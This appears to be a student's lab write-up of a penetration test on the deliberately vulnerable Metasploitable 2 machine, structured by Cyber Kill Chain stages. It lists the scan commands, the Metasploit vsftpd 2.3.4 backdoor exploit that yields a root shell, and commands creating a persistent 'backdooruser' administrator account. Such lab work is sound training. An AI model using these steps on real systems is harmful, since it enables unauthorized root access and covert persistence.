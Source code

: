 # Penetration Test of Metasploitable 2 

## Objective

The objective of this penetration test was to simulate an attack on a vulnerable system, identify potential security weaknesses, and exploit known vulnerabilities to gain unauthorized access. The Metasploitable 2 machine, a deliberately vulnerable Linux distribution, served as the target, while a Kali Linux machine was used as the attacker system.

### Skills Learned

- Practical application of the Cyber Kill Chain framework.
- Proficiency in using penetration testing tools such as Nmap, netdiscover, and Metasploit.
- Understanding and exploiting known vulnerabilities.
- Gaining and maintaining persistent access to a compromised system.
- Documenting the penetration testing process.

### Tools Used

- Nmap: For network discovery and security auditing.
- netdiscover: For identifying live hosts in a network.
- Metasploit Framework: For exploiting known vulnerabilities.
- Bash scripting: For automating tasks and gathering information.

## Steps
### Reconnaissance
We used netdiscover to identify the IP address of the Metasploitable 2 machine and nmap to enumerate open ports and services. This provided us with detailed information about the target system, including potential vulnerabilities.

Commands:
netdiscover -r 10.0.2.0/24
nmap -sV 10.0.2.4

### Weaponization
We identified vsftpd 2.3.4 on port 21 as a vulnerable service (CVE-2011-2523) and decided to use the corresponding Metasploit module to exploit it.

Commands:
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 10.0.2.4

### Delivery
We executed the Metasploit exploit to gain initial access to the target system.

Commands:
run

### Exploitation
The exploit opened a command shell session with root access on the target machine, confirming successful exploitation.

### Installation
To establish persistent access, we created a new user with administrative privileges. We initially encountered issues with granting sudo privileges but resolved them by adding the user to the admin group.

Commands:
useradd -m -s /bin/bash backdooruser
usermod -aG admin backdooruser

### Command and Control (C2)
We verified that the new user had sudo privileges, ensuring we could maintain control over the system.

Commands:
su - backdooruser
sudo -l

### Actions on Objectives
The goal of documenting a successful penetration test using the Cyber Kill Chain framework was achieved. We gained and maintained access to the Metasploitable 2 machine, demonstrating the importance of continuous vulnerability assessment and remediation.
